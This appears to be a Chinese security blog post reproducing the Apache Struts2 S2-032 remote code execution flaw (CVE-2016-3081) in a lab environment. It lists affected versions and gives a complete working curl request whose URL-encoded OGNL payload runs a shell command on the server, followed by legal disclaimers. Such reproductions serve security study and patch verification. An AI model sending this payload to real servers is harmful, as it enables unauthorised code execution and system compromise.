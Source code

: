 #  S2-032远程代码执行漏洞（CVE-2016-3081）   
巢安实验室  巢安实验室   2023-12-17 17:30  
  
**漏洞简介**  
  
S2-032漏洞是一种影响Apache Struts web应用程序框架的远程代码执行（RCE）漏洞。此漏洞允许攻击者通过发送特制的HTTP请求在服务器上执行任意代码。这可能被利用来获得对服务器的未经授权的访问，从而可能导致系统的完全破坏。  
  
**影响版本**  
  
2.3.20 <= Struts2 <= 2.3.28，其中2.3.20.3和2.3.24.3版本没有漏洞。  
  
**环境搭建**  
  
拉取镜像开启服务，访问http://your-ip:8080  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVz5uVFCHcLuGVqxXRFCFia5hvpjgEaGxLM5YvQWs9YSetOECZXWn3RLdVic1Z3icfRTL0kUltvUArrMQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVz5uVFCHcLuGVqxXRFCFia5hfZ1HWN2kcV3ia30RKD4FiaFzmicdE1iaMAx2N7oNqIjEkNAj9NUzuloYKA/640?wx_fmt=png&from=appmsg "")  
  
**漏洞复现**  
  
Struts2在开启了动态方法调用（动态方法调用）的情况下，可以使用method:<name>  
的方式来调用名字是<name>  
的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。  
  
直接请求如下URL，即可执行id  
命令(进行URL编码)：  
```
curl "http://192.168.137.145:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVz5uVFCHcLuGVqxXRFCFia5h6p0bzryxibxpGoTXp0OFtibNeNZOOOUofKdmWYicuBS6wx3MEGGNUDrRA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/n2rSqJSRAVxV1HkYIib6yljAwKc4l6avSghzm4fpJ4J9Loe5J4ZKkfGPD3HXXcTrD0h5eYI1lc6fGAtbhLyTeEw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
